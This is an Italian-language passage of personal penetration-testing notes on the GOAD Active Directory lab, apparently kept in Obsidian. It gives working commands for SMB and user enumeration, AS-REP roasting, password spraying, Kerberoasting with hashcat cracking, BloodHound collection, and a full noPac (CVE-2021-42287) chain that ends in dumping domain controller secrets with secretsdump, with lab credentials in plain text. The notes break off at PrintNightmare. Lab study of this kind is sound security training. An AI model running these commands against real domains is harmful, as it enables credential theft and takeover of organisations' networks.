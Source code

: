 ### **SUBNET ENUM**
Inizio enumerando l'intera subnet con cme alla ricerca du samba
```bash
crackmapexec smb 192.168.56.0/24
```
![[Pasted image 20230810122313.png]]
Ora trovo gli ip dei DC per configurare /etc/hosts e capire la topologia
```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.sevenkingdoms.local 192.168.56.10
```
cambia ogni volta il nome del dominio
![[Pasted image 20230810124141.png]]
quindi modifico /etc/hosts per risolvere gli indirizzi
![[Pasted image 20230810124229.png]]

### **USER ENUM (NO CREDS)**
Enumero gli user presenti su ogni macchine
```bash
crackmapexec smb 192.168.56.11 --users
```
Ha SAMRPC attivo e quindi potrò enumerare gli user
![[Pasted image 20230810163553.png]]
Ho ottenuto anche una password trovata nella descrizione negli user

Puoi anche ottenere la policy della password per provare del bruteforce
```bash
crackmapexec smb 192.168.56.11 --pass-pol
```
![[Pasted image 20230810164319.png]]
Potresti usare anche enu4linux ma non ho voglia

### **SHARE SMB (NO CREDS)**
Enumeriamo gli share di smb su cui abbiamo qualche permesso come anonimo
```bash
crackmapexec smb 192.168.56.10-23 -u 'guest' -p '' --shares
```
![[Pasted image 20230810165921.png]]
cioccato

### **ASPREP-roasting**
Hai trovato la lista degli username, ora spolvera gli appunti
```bash
impacket-GetNPUsers 'north.sevenkingdoms.local/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
![[Pasted image 20230810171242.png]]
cracca l'hash
![[Pasted image 20230810171924.png]]

### **Password Spraying**
==OCCHIO ALLE POLICY DELLE PASSWORD PERCHE POTRESTI LOCKARE LE PASSWORD==
```bash
crackmapexec smb 192.168.56.11 -u user.txt -p user.txt --no-bruteforce
```
![[Pasted image 20230810172208.png]]
### **NTLM RELAY**
Controlliamo tra gli host se ce ne è uno con l'opzione "signing:False"
```bash
crackmapexec smb 192.168.56.10-23 --gen-relay-list relay.txt
```
![[Pasted image 20230825154818.png]]
Da approfondire quando si potrà
### **USER ENUM(W\ CREDS)**
Per ottenere tutti gli User di un dominio avendo un account a disposizione
```bash
impacket-GetADUsers -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 
```
![[Pasted image 20230825105044.png]]

### **KERBEROASTING (SPN)**
Proviamo a vedere se c'è qualche SPN settato e con l'hash in chiaro (Cosa che capita spesso)
```bash
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```
![[Pasted image 20230825112141.png]]
Gli hash di questi due utenti sono stati inseriti nel file kerberoasting.hashes (opzione -outpoutfile)

Puoi usare anche crackmapexec per farlo
```bash
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

Cracca gli hash
```bash
hashcat -m 13100 -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20230825114831.png]]
Solo un hash è stata craccata

### **AD ENUM (BLOODHOUND)**
Ora che abbiamo trovato delle credenziali per accedere possiamo fare un enumerazione dell'ad tramite bloodhound e trovare i vari path per gli account
```bash
xfreerdp /u:jon.snow /p:iknownothing /d:north /v:192.168.56.22 /cert-ignore
```
Passa l'exe ed avvialo, enumerando tutti e 3 i domain
```bash
.\sharphound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip
.\sharphound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip
.\sharphound.exe -d essos.local -c all --zipfilename bh_essos.zip
```

### **SamAccountName (NoPac) CVE-2021-42287**
Per questo passaggio scarica
[GitHub - dirkjanm/krbrelayx: Kerberos unconstrained delegation abuse toolkit](https://github.com/dirkjanm/krbrelayx)
impacket-renameMachine.py
impacket-getST.py

Vediamo il machine account quota (Quanti computer puoi aggiungere al domain) dell'account trovato con il kerberoasting
```bash
crackmapexec ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```
![[Pasted image 20230825161202.png]]
Ora aggiungiamo il nuovo computer al domain
```bash
impacket-addcomputer -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230825162234.png]]
Ora puliamo l'SPNs del nuovo computer
```bash
python3 addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'
```
![[Pasted image 20230825164134.png]]
Rinominiamo il computer a DCl (Da qui in poi non sono riuscito a fare l'exploit)
```bash
python3 renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing
```
![[Pasted image 20230825170216.png]]
```bash
impacket-getTGT -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
```
![[Pasted image 20230825170322.png]]
```bash
renameMachine.py -current-name 'winterfell' -new-name 'samaccount$' north.sevenkingdoms.local/jon.snow:iknownothing
```
![[Pasted image 20230825170418.png]]
```bash
export KRB5CCNAME=/workspace/winterfell.ccache
```
```bash
impacket-getST -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
```
![[Pasted image 20230825170523.png]]
```bash
export KRB5CCNAME=/workspace/administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
```
```bash
secretsdump.py -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'
```
![[Pasted image 20230825170548.png]]

### **PrintNightmare**
Inanzitutto controlliamo se spooler è attivo
```bash
crackmapexec smb 192.168.56.10-23 -M spooler
```
![[Pasted image 20230825171651.png]]
o
